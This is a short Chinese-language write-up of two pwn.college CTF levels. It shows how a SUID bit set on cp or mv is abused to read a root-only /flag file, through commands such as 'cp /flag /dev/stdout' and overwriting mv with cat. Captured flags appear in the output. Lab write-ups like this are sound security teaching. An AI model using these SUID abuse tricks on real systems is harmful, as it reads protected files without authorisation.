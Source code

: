 ## level39 Lets you get the flag by doing tricks with permissions!
```
hacker@program-misuse-level-39:~$ sh file.sh
Welcome to ./babysuid_level39!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/cp.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level39) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cp!
```
一开始想搞个硬链接，然后发现不行，然后输出到[标准输出流](https://blog.csdn.net/Dontla/article/details/121200247)就行了
```
hacker@program-misuse-level-39:~$ cp /flag /dev/stdout
pwn.college{Q2azoEz2fXYLZxYkmGAK4PjtrO7.0VM4EDL2QjMyMzW}
hacker@program-misuse-level-39:~$
```

## level40 Lets you get the flag by doing tricks with permissions!
```
hacker@program-misuse-level-40:~$ sh file.sh
Welcome to ./babysuid_level40!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/mv.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level40) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/mv!
```
这题，十分的离谱啊，完全不会做，看的答案，实在是太骚气了，使用mv把cat覆盖mv
```
hacker@program-misuse-level-40:~$ mv /usr/bin/cat /usr/bin/mv
hacker@program-misuse-level-40:~$ sh file.sh
Welcome to ./babysuid_level40!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/mv.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level40) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/mv!
hacker@program-misuse-level-40:~$ mv /flag
pwn.college{g9AYY8a5E2v4R8jr_434HNFYEL3.0lM4EDL2QjMyMzW}
hacker@program-misuse-level-40:~$
```
///@TODO:这个值得记录一下！
